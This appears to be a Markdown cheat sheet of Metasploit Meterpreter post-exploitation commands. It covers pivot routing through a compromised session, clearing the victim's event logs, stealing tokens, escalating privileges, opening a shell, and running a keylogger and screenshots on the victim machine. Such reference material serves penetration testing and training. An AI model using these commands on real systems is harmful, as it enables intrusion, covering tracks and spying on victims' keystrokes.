 ### Meterpreter list all active routes
```
run autoroute -p
```
### Meterpreter view available networks the compromised host can access
```
route
```
### Meterpreter add route for 192.168.14.0/24 via Session 3.
```
route add 192.168.14.0 255.255.255.0 3
```
### Meterpreter delete route for 192.168.14.0/24 via Session 3.
```
route delete 192.168.14.0 255.255.255.0 3
```
### Meterpreter delete all routes
```
route flush
```

## System Commands:
```
clearev         clears the event logs on the victim's computer
drop_token      drops a stolen token
execute         executes a command
getpid          gets the current process ID (PID)
getprivs        gets as many privileges as possible
getuid          get the user that the server is running as
kill            terminate the process designated by the PID
ps              list running processes
reboot          reboots the victim computer
reg             interact with the victim's registry
rev2self        calls RevertToSelf() on the victim machine
shell           opens a command shell on the victim machine
shutdown        shuts down the victim's computer
steal_token     attempts to steal the token of a specified (PID) process
sysinfo         gets the details about the victim computer such as OS and name
```

## User Interface Commands:
```
enumdesktops    lists all accessible desktops
getdesktop      get the current meterpreter desktop
idletime        checks to see how long since the victim system has been idle
keyscan_dump    dumps the contents of the software keylogger
keyscan_start   starts the software keylogger when associated with a process such as Word or browser
keyscan_stop    stops the software keylogger
screenshot      grabs a screenshot of the meterpreter desktop
set_desktop     changes the meterpreter desktop
uictl           enables control of some of the user interface components
```
